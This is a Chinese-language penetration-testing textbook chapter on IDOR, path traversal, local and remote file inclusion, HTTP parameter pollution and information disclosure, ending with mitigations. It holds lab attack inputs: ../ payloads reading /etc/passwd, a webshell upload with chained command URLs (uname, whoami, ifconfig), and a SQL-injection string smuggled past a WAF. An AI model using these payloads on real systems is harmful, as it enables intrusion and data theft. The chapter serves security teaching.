





# Web 应用程序中的其他常见安全缺陷

到目前为止，在本书中，我们已经简要介绍了围绕 Web 应用程序安全和渗透测试的大部分问题。然而，由于 Web 应用程序的性质——它们代表了如此多样化的技术和方法论的混合，这些技术和方法论并不总是很好地协同工作——针对这些应用程序的特定漏洞和不同类型的攻击的数量是如此之大且迅速变化，以至于没有一本书能够涵盖所有内容；因此，有些东西必须被遗漏。

在本章中，我们将介绍一组常见的漏洞，这些漏洞通常存在于 Web 应用程序中，有时会逃脱开发人员和安全测试人员的关注，不是因为它们是未知的（实际上，有些在*OWASP Top 10*中），而是因为它们在现实世界的应用程序中的影响有时被低估，或者因为 SQL 注入和 XSS 等漏洞由于对用户信息的直接影响而更为重要。本章涵盖的漏洞如下：

+   不安全的直接对象引用

+   文件包含漏洞

+   HTTP 参数污染

+   信息泄露

# 不安全的直接对象引用

**不安全的直接对象引用**漏洞发生在应用程序从服务器请求资源（可以是文件、函数、目录或数据库记录）时，通过其名称或其他标识符，并允许用户直接篡改该标识符以请求其他资源。

让我们以 Mutillidae II 为例（导航到 OWASP Top 10 2013 | A4 - 不安全的直接对象引用 | 源代码查看器）。这个练习涉及一个源代码查看器，它从下拉框中选择一个文件名并在查看器中显示其内容：

！[](img/00260.jpeg)

如果您在 Burp Suite 或任何代理中检查请求，您会发现它有一个`phpfile`参数，其中包含要查看的文件名：

！[](img/00261.jpeg)

您可以尝试拦截该请求，将文件名更改为列表中没有的文件名，但您知道它存在于服务器上，例如`passwords/accounts.txt`（您可以使用互联网搜索默认配置文件或安装在 Web 服务器和某些应用程序上的相关代码）：

！[](img/00262.jpeg)

由于应用程序直接引用文件名，您可以更改参数以使应用程序显示不打算查看的文件。

# Web 服务中的直接对象引用

Web 服务，特别是 REST 服务，通常使用 URL 中的标识符引用数据库元素。如果这些标识符是连续的，并且授权检查没有正确执行，那么只需增加或减少标识符就可以枚举所有元素。

例如，假设我们登录到银行应用程序，然后调用 API 请求我们的个人资料。此请求看起来类似于以下内容：

```
https://bankingexample.com/client/234752879  
```

信息以 JSON 格式返回，格式化并显示在客户端的浏览器上：

```
{ 
  "id": "234752879", 
  "client_name": "John", 
  "client_surname": "Doe", 
  "accounts": [{"acc_number":"123456789","balance":1000}, 
   {"acc_number":"123456780","balance":10000}] 
} 
```

如果我们在请求中递增客户端 ID，并且服务器上没有正确检查授权权限，我们可能会获取银行的另一个客户的信息。这可能是一个重大问题，因为这个应用程序处理如此敏感的数据。Web 服务应该只允许在适当的身份验证后访问，并始终在服务器端执行授权检查；否则，有人使用直接对象引用访问敏感数据的风险。不安全的直接对象引用是 Web 服务中令人担忧的主要原因，在渗透测试 RESTful Web 服务时应将其置于首要位置。

# 路径遍历

如果一个应用程序使用客户端提供的参数来构建文件的路径，并且进行了适当的输入验证和访问权限检查，攻击者可以更改文件的名称和/或在文件名前添加路径以检索不同的文件。这被称为路径遍历或目录遍历。大多数 Web 服务器已经被锁定以防止这种类型的攻击，但应用程序仍然需要在直接引用文件时验证输入。

用户应该被限制只能浏览 Web 根目录，不能访问 Web 根目录上方的任何内容。恶意用户将寻找指向 Web 根目录之外的文件的直接链接，其中最有吸引力的是操作系统的根目录。

基本的路径遍历攻击使用`../`序列通过 URL 修改资源请求。在操作系统中，`../`表达式用于向上移动一个目录。攻击者必须猜测移动和超出 Web 根目录所需的目录数量，这可以通过试错法轻松完成。如果攻击者想要向上移动三个目录，则必须使用`../../../`。

让我们使用 DVWA 来考虑一个例子：我们将使用“文件包含”练习来演示路径遍历。当页面加载时，您会注意到 URL 中有一个`page`参数，其值为`include.php`，这显然是按名称加载文件：

！[](img/00263.jpeg)

如果您访问该 URL，您会发现加载`include.php`文件的页面位于应用程序的根目录（/vulnerabilities/fi/）下两个级别，服务器的根目录（dvwa/vulnerabilities/fi/）下三个级别。如果您将文件名替换为`../../index.php`，您将上升两个级别，然后显示 DVWA 的主页：

！[](img/00264.jpeg)

您可以尝试逃离 Web 服务器根目录以访问操作系统中的文件。在 GNU / Linux 上，默认情况下，Apache Web 服务器的根目录位于/var/www/html。如果您在先前的输入中添加三个更多级别，您将引用操作系统的根目录。通过将`page`参数设置为`../../../../../etc/passwd`，您将能够读取包含底层操作系统上用户信息的文件：

！[](img/00265.jpeg)

在基于 Unix 的系统中，/etc/passwd 路径是测试路径遍历的一个确定赌注，因为它始终存在并且可以被所有人读取。如果您正在测试 Windows 服务器，您可以尝试以下操作：

```
../../../../../autoexec.bat
../../../../../boot.ini
../../../../../windows/win.ini
```

# 文件包含漏洞

在 Web 应用程序中，开发人员可以包含存储在远程服务器上的代码或存储在本地服务器上的文件中的代码。引用不在 Web 根目录中的文件主要用于将常见代码合并到稍后可以由主应用程序引用的文件中。

当一个应用程序使用输入参数来确定要包含的文件的名称时，它就容易受到文件包含的攻击；因此，用户可以设置之前上传到服务器的恶意文件的名称（本地文件包含）或另一个服务器上的文件的名称（远程文件包含）。

# 本地文件包含

在**本地文件包含**（**LFI**）漏洞中，服务器上的本地文件被`include`函数访问而没有进行适当的验证；也就是说，包含了包含服务器代码的文件，并在页面中执行了它们的代码。对于开发人员来说，这是一个非常实用的功能，因为他们可以重用代码并优化资源。问题出现在使用用户提供的参数来选择要包含的文件时，以及进行不充分或没有验证。许多人将 LFI 缺陷与路径遍历缺陷混淆。尽管 LFI 缺陷通常表现出与路径遍历缺陷相同的特征，但应用程序对待这两种缺陷的方式是不同的。对于路径遍历缺陷，应用程序只会读取和显示文件的内容。对于 LFI 缺陷，应用程序不会显示内容，而是将文件包含为解释代码的一部分（构成应用程序的网页）并执行它。

在之前解释的路径遍历漏洞中，我们使用了 DVWA 的*文件包含*练习，并且当我们将`../../index.php`作为参数使用时，`index.php`页面被解释为代码执行了一个 LFI。然而，包含已经存在于服务器上并为应用程序提供合法目的的文件通常不会构成安全风险，除非非特权用户能够包含一个管理页面。在服务器上的所有页面都是无害的情况下，作为渗透测试人员，您如何证明存在安全问题，允许包含本地文件？您需要上传一个恶意文件并使用它进一步利用 LFI。

我们将上传的恶意文件是一个 webshell，它是一个在服务器上运行的脚本，可以让我们远程执行操作系统命令。Kali Linux 在`/usr/share/webshells`目录中包含了一系列的 webshell。在这个练习中，我们将使用`simple-backdoor.php`（`/usr/share/webshells/php/simple-backdoor.php`）。

进入 DVWA 的*文件上传*练习，并上传文件。注意文件上传时显示的相对路径：


如果上传脚本位于`/dvwa/vulnerabilities/upload/`，相对于 Web 服务器根目录，根据显示的相对路径，文件应该上传到`/dvwa/hackable/uploads/simple-backdoor.php`。现在返回到*文件包含*练习，将`page`参数更改为`../../hackable/uploads/simple-backdoor.php`。


好的，诚然我们没有得到一个惊人的结果。让我们检查一下 webshell 的代码：



您需要向 webshell 传递一个带有要执行的命令的参数，但在文件包含中，被包含文件的代码与包含它的文件集成在一起，所以您不能只是按照使用说明添加`?cmd=command`。相反，您需要添加一个`cmd`参数，就像将其发送给包含页面一样：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a
```


您还可以使用`;`（分号）作为分隔符，在单个调用中链接多个命令：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a;whoami;/sbin/ifconfig
```



# 远程文件包含

**远程文件包含**（**RFI**）是一种攻击技术，利用应用程序允许从其他服务器包含文件的机制。这可能导致应用程序被欺骗以在攻击者控制的远程服务器上运行脚本。

RFI 的工作方式与 LFI 完全相同，唯一的区别是使用完整的 URL 而不是文件的相对路径，如下所示：

```
http://vulnerable_website.com/preview.php?script=http://example.com/temp  
```

现代 Web 服务器默认禁用包括文件（尤其是外部文件）的功能。然而，有时应用程序或业务的要求会使开发人员启用此功能。随着时间的推移，这种情况发生的频率越来越少。

# HTTP 参数污染

HTTP 允许在`GET`和`POST`方法中使用相同名称的多个参数。HTTP 标准既不解释也没有规定如何解释具有相同名称的多个输入参数 - 是接受变量的最后出现还是第一次出现，或者将变量用作数组。

例如，以下`POST`请求符合标准，即使`item_id`变量的值为`num1`和`num2`：

```
item_id=num1&second_parameter=3&item_id=num2  
```

尽管根据 HTTP 协议标准，不同的 Web 服务器和开发框架处理多个参数的方式各不相同。处理多个参数的未知过程经常导致安全问题。这种意外行为被称为**HTTP 参数污染**。下表显示了主要 Web 服务器中的 HTTP 重复参数行为：

| **框架/ Web 服务器** | **结果动作** | **示例** |
| --- | --- | --- |
| ASP.NET/IIS | 所有出现的参数用逗号连接 | `item_id=num1,num2` |
| PHP/Apache | 最后出现 | `item_id=num2` |
| JSP/Tomcat | 第一次出现 | `item_id=num1` |
| IBM HTTP 服务器 | 第一次出现 | `item_id=num1` |
| Python | 所有出现的参数组合成一个列表（数组） | `item_id=['num1','num2']` |
| Perl/Apache | 第一次出现 | `item_id=num1` |

想象一种情况，Tomcat 服务器位于基于 Apache 和 PHP 的**Web 应用程序防火墙**（**WAF**）后面，攻击者在请求中发送以下参数列表：

```
item_id=num1'+or+'1'='1&second_parameter=3&item_id=num2  
```

WAF 将采用参数的最后出现并确定它是一个合法的值，而 Web 服务器将采用第一个出现的值，如果应用程序容易受到 SQL 注入攻击，攻击将成功，绕过 WAF 提供的保护。

# 信息泄露

使用 Web 应用程序的目的是允许用户访问信息并执行任务。然而，并不是每个用户都应该能够访问所有数据，并且有关应用程序、操作系统和用户的一些信息，攻击者可以利用这些信息来获取知识并最终访问应用程序的经过身份验证的功能。

为了使用户与应用程序的交互更友好，开发人员有时可能会发布过多的信息。此外，在它们的默认安装中，Web 开发框架被预配置为显示和突出显示它们的功能，而不是为了安全。这就是为什么很多时候这些默认配置选项会一直保持活动状态，直到框架的正式发布，从而暴露可能构成安全风险的信息和功能。

让我们来看一些可能带来安全风险的信息泄露示例。在下面的截图中，您可以看到一个名为`phpinfo.php`的页面。这个页面有时会默认安装在 Apache/PHP 服务器上，它提供了关于底层操作系统、Web 服务器的活动模块和配置以及更多详细信息：



您还会发现客户端源代码中使用了描述性注释的情况。以下是一个极端的例子。在现实世界的应用程序中，您可能能够找到有关应用程序逻辑和功能的详细信息，这些信息仅仅被注释掉了：



在下一个截图中，您可以看到 Web 应用程序中一个相当常见的问题。这个问题经常被开发人员、安全人员和风险分析师低估。它涉及一个过于冗长的错误消息，显示了调试跟踪、错误的文件名和行号等等。这可能足以让攻击者识别操作系统、Web 服务器版本、开发框架、数据库版本和文件结构，并获取更多信息：



在最后一个示例中，身份验证令牌存储在 HTML5 会话存储中。请记住，通过 JavaScript 可以访问此对象，这意味着如果存在 XSS 漏洞，攻击者将能够劫持用户的会话：


# 缓解措施

现在我们将讨论如何预防或缓解前面部分中解释的漏洞。简而言之，我们将执行以下操作：

+   遵循最小特权原则

+   验证所有输入

+   检查/加固服务器配置

# 不安全的直接对象引用

始终优先使用间接引用。使用非连续的数字标识符引用允许的对象表，而不是允许用户直接使用对象的名称。

对从浏览器接收到的数据进行适当的输入验证和清理将防止路径遍历攻击。应用程序的开发人员在进行文件系统调用时应注意接受用户输入。如果可能，应避免这样做。**chroot 监狱**涉及将应用程序的根目录与操作系统的其余部分隔离开来，这是一种很好的缓解技术，但可能难以实现。

对于其他类型的直接对象引用，必须遵循最小特权原则。用户只能访问他们正常操作所需的信息，并且必须对用户发出的每个请求进行授权验证。当请求任何其配置文件或角色不应查看或访问的信息时，他们应收到错误消息或*未经授权*的响应。

WAFs 也可以阻止此类攻击，但它们应与其他缓解技术一起使用。

# 文件包含攻击

在设计层面上，应用程序应尽量减少用户输入对应用程序流程的影响。如果应用程序依赖用户输入进行文件包含，应选择间接引用而不是直接引用。例如，客户端提交一个对象 ID，然后在包含有效文件列表的服务器端目录中搜索该 ID。应进行代码审查以查找包含文件的函数，并进行检查以分析是否对从用户接收到的数据进行适当的输入验证以对数据进行清理。

# HTTP 参数污染

在这种漏洞中，应用程序未执行适当的输入验证，导致覆盖硬编码的值。白名单预期参数及其值应包含在应用程序逻辑中，并对用户输入进行清理。应使用能够跟踪变量的多个出现并已调整以理解该缺陷的 WAF 来处理过滤。

# 信息泄露

在发布到生产环境之前，必须彻底审查服务器配置。应删除任何不是应用程序功能所必需的多余文件或文件，以及可能泄露相关信息的所有服务器响应头，例如以下内容：

+   `服务器`

+   `X-Powered-By`

+   `X-AspNet-Version`

+   `版本`

# 总结

在本章中，我们回顾了一些可能逃避 XSS、SQL 注入和其他常见漏洞的 Web 应用程序中的漏洞。作为渗透测试人员，您需要知道如何识别、利用和缓解漏洞，以便能够找出它们并为客户提供适当的建议。

我们开始本章时介绍了不安全的直接对象引用的广义概念及其一些变体。然后我们转向文件包含漏洞，它是一种特殊类型的不安全的直接对象引用，但它本身代表了一个分类类别。我们对 LFI 进行了练习，并解释了远程版本。

之后，我们回顾了不同服务器如何处理请求中的重复参数，以及攻击者如何通过 HTTP 参数污染利用这一点。

接下来，我们研究了信息披露，并回顾了提供的示例，说明应用程序如何向用户呈现过多的信息，以及恶意代理如何利用这些信息来收集信息或进一步为攻击做准备。

最后，我们还介绍了一些对前面漏洞的缓解建议。大部分缓解技术依赖于服务器的正确配置和应用程序代码的严格输入验证。

到目前为止，我们一直在手动进行所有的测试和利用，这是进行安全测试和学习的最佳方式。然而，有些情况下我们需要在短时间内覆盖大范围，或者客户要求使用一些扫描工具，或者我们只是不想错过任何低风险的漏洞；在下一章中，我们将学习 Kali Linux 中包含的自动化漏洞扫描器和模糊测试工具，这些工具将帮助我们应对这些情况。
